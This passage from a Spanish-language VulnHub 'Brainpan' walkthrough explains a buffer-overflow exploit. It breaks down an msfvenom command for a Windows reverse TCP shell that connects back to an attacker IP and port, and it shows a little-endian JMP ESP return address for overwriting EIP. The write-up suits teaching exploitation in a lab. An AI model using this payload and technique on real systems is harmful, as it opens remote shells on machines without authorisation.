- `msfvenom`: La herramienta de generación de exploits y payloads en Metasploit.
- `-p windows/shell_reverse_tcp`: Especifica el tipo de payload que se generará, en este caso, un shell de Windows con conexión de retorno TCP.
- `LHOST=192.168.1.14`: Indica la dirección IP del host al que se conectará el shell. Debes reemplazar `192.168.1.14` con la dirección IP de tu máquina atacante.
- `LPORT=4444`: Especifica el número de puerto al que se conectará el shell. En este caso, el puerto es `4444`. Puedes cambiarlo según tus necesidades.
- `EXITFUNC=thread`: Establece la técnica que el payload utilizará para salir. En este caso, se utiliza `thread` para salir mediante un hilo.
- `-b "\x00"`: Especifica los bytes que deben evitarse en el payload. En este caso, se están evitando los bytes nulos (`\x00`), lo que es común en técnicas de evasión.
- `-f c`: Indica el formato de salida del payload. En este caso, se está utilizando el formato `c` (C code), lo que significa que el payload se generará como código C.

![Brainpan](/assets/img/vulnhub/brainpan/brainpan-33.png)
_shellcode_

El resultado generado lo asignamos como valor de nuestra variable `shellcode`.

Además, como estamos frente a una arquitectura x86 las direcciones de memoria deben representarse en **little-endian**, es decir, el valor de nuestra variable `eip` que corresponde a la instrucción `JMP ESP` debe representarse de la siguiente forma:

```python
eip = '\xf3\x12\x17\x31'
```

### Uso de NOPs y desplazamientos en pila

Una vez que se ha encontrado la dirección del opcode que aplica el salto al registro **ESP**, es posible que el shellcode no sea interpretado correctamente debido a que su ejecución puede requerir más tiempo del que el procesador tiene disponible antes de continuar con la siguiente instrucción del programa.
